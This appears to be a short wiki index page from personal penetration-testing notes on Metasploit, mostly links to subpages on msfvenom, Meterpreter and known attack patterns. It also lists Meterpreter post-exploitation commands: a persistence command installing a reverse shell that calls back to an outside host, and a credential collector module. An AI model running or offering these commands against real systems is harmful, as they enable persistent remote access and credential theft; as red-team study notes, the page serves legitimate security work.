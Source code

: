 <!-- TITLE: Metasploit Main -->
<!-- SUBTITLE: A quick summary of Metasploit Main -->


[Back to Tools](/tools)

[Metasploit Site](https://www.metasploit.com/)

[MSFVenom](/msfvenom)

[Meterpreter](/meterpreter)

[MSFConsole](/msfconsole)

[MSFDB](/msfdb)

[MSFRPC](/msfrpc)
# Known Attack Patterns
[Pass the Hash](/passthehash)
[Browser Attacks](/browserattacks)
[Office Macro Attacks](/officemacros)
[PDF Payload](/pdfpayload)
[MSSql to Meterpreter](/mssqlmeterpreter)
# Writing Exploits
# Post Module Tricks
run persistence -P windows/meterpreter/reverse_tcp_dns -S -i 9000 -p 9998 -r olympus.dyns.cx
-i - I think is interval

Post Exploit
run prefetchtool -l

run post/windows/gather/credential_collector

# MSF RPC Connections